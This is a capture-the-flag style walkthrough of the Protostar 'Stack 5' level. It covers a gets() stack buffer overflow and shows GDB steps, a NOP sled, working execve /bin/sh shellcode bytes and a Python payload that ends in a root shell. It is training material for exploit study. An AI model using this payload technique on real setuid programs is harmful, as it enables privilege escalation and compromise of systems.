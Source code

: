 # Stack 5

Stack 5 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

We can utilize the same padding offset we found in stack4 to overwrite the return address. We have to return from the main function to shellcode that we write to the stack. We will write a NOP sled before the shellcode, and set the main function return address to around the middle of the NOP sled. This will ensure that the exploit works even if the stack moves around due to inconsistencies.

To find our new return address, we can use GDB.

```shell
gdb stack5
(gdb) disassemble main
```
We find that the return instruction is at 0x080483da.
```shell
(gdb) break *0x080483da
(gdb) r
asldkjfl
```
Then, when the program hits the breakpoint, we check the stack.
```shell
(gdb) x/8wx $esp
```
The stack pointer is currently at 0xbffffcbc (this may change depending on the machine and other factors, gdb will provide accurate information). This is before the return address is removed from the stack. We now want to decide on our new return address. If we make the NOP sled 28 operations long, then 0xbffffcd0 should work, since it would be around the middle of the NOP sled. Finally, at the end of the NOP sled, we must place shellcode. The problem suggests using someone else's shellcode, so I tried a few shellcodes from shell-storm.org. Since the stack5 program is run by user but runs as a root program, using shellcode to call /bin/sh will create a root shell. The shellcode that I got working is found at http://shell-storm.org/shellcode/files/shellcode-811.php. 

```python
print("".join([chr(i)*4 for i in range(65,84)])+"\xd0\xfc\xff\xbf"+"\x90"*28+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")
```

```shell
python /tmp/stack5.py > /tmp/exploit
gdb stack5
(gdb) r < /tmp/exploit
```
The output shows that it runs /bin/dash, then immediately ends the program. Next I tried this outside of GDB, but I ran into a few different errors on different occasions, such as Segmentation Fault, Floating point error, Illegal Instruction, etc. After some research, I concluded that environment variables were causing my return address to miss the NOP sled. So I increased my NOP sled and modified the return address until my exploit worked.

```python
print("".join([chr(i)*4 for i in range(65,84)])+"\xd8\xf7\xff\xbf"+"\x90"*40+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")
```
```shell
python stack5.py | /opt/protostar/bin/stack5
```
This time, no errors occurred, but the /bin/dash immediately closed without any input or output. Something similar happened in GDB. In order to counter this, we need to have input piped into the original command before it is run. When the "cat" command is not provided any input, it reads from stdin to print instead. Thus, chaining the "cat" command with the python exploit works.

```shell
(python stack5.py; cat) | /opt/protostar/bin/stack5
whoami
root
```

